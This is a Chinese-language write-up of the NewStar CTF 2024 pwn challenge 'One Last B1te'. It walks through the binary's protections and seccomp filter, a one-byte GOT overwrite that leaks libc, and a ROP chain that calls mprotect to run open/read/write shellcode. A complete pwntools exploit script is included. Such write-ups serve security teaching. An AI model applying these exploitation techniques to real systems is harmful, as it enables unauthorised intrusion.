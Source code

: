 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# One Last B1te

先查保护和沙箱：

```asm
[*] '/home/?????/PWN/NewStar2024-test/hackgot/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x03 0x00 0x00000028  if (A == sendfile) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```

没有 PIE，没有 anary，Partial RELRO，意味着存在延迟绑定 + GOT 表可写。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+8h] [rbp-18h] BYREF
  _BYTE v5[16]; // [rsp+10h] [rbp-10h] BYREF

  init(argc, argv, envp);
  sandbox();
  write(1, "Show me your UN-Lucky number : ", 0x20uLL);
  read(0, &buf, 8uLL);  // 读入一个地址
  write(1, "Try to hack your UN-Lucky number with one byte : ", 0x32uLL);
  read(0, buf, 1uLL);   // 往上面读入的地址中写入一个字符
  read(0, v5, 0x110uLL);// 往栈上读入内容，有栈溢出
  close(1);             // 关闭stdout
  return 0;
}
```

有一次任意地址写的机会。

程序在新版 Ubuntu 24 下编译，优化掉了 CSU，此时我们很难利用 ELF 的 gadget 来 ROP.

我们想办法泄露 libc 地址或者 ld 地址然后利用 libc/ld 中的 gadget 来 ROP，执行 open + read + write 来输出 flag 文件内容。

程序中只有 `write` 函数可以进行输出，我们可以利用一个字节任意地址写的机会，把 `close` 函数的 GOT 表的数值改为`write`函数的 PLT 表的地址（因为存在延迟绑定，`close` 在第一次调用之前指向的是 PLT 中的表项，我们很容易利用修改最低一个字节的方法来使其指向 `write` 函数的 PLT 表）。

之后由于 `close(1)` 设置第一个参数为 1，同时 `read(0, v5, 0x110uLL);` 会残留第 2、3 个参数，我们修改 `close` 的 GOT 表之后相当于执行 `write(1,v5,0x110uLL);`，就可以泄露栈上的内容，正好能泄露 libc 地址，之后利用栈溢出再次启动 `main` 函数栈溢出 ROP 即可。

由于 glibc 2.39 版本不容易控制 rdx 寄存器，我们可以使用 `pop rax` + `xchg eax, edx` 的方法来设置 rdx 寄存器的数值。

```python
# sudo sysctl -w kernel.randomize_va_space=0
# gcc pwn.c -o pwn -masm=intel -no-pie -fno-stack-protector -l seccomp
from pwn import*
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('localhost',11451)
#p=process(['./ld-2.31.so', ELFpath], env={"LD_PRELOAD":'./libc-2.31.so'})
# p=process(ELFpath)

close_got=0x404028
write_plt=0x4010c0

p.sendafter("Show me your UN-Lucky number :",p64(close_got))
p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\xc0')
ret=0x0401447
main=0x4013a3
rubbish=0x404000+0x800
payload=b'a'*0x18+p64(ret)+p64(main)
pause()

p.send(payload)
p.recvuntil(b'a'*0x18)
p.recv(0xb8-0x18)
libc_base=u64(p.recv(6)+b'\x00\x00')-0x710b26c2a28b+0x710b26c00000

p.sendafter("Show me your UN-Lucky number :",p64(rubbish))

p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\x70')

pop_rdi=libc_base+0x010f75b
pop_rsi=libc_base+0x110a4d
binsh=libc_base+0x1cb42f

xchg_edx_eax=libc_base+0x01a7f27

pop_rax=libc_base+0x0dd237

open_a=libc_base+0x011B120
read_a=libc_base+0x011BA50
mprotect=libc_base+0x00125C10

payload=b'a'*0x18+p64(pop_rdi)+p64(libc_base+0x202000)+p64(pop_rsi)+p64(0x2000)+p64(pop_rax)+p64(7)+p64(xchg_edx_eax)+p64(mprotect)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_base+0x202000)+p64(pop_rax)+p64(0x1000)+p64(xchg_edx_eax)+p64(read_a)+p64(libc_base+0x202000)

pause()

p.send(payload)

pause()

shellcode=''
shellcode+=shellcraft.open('./flag',0,0)
shellcode+=shellcraft.read('rax',libc_base+0x202000+0x800,0x100)
shellcode+=shellcraft.write(2,libc_base+0x202000+0x800,'rax')
# gdb.attach(p)
p.send(asm(shellcode))

p.interactive()
```
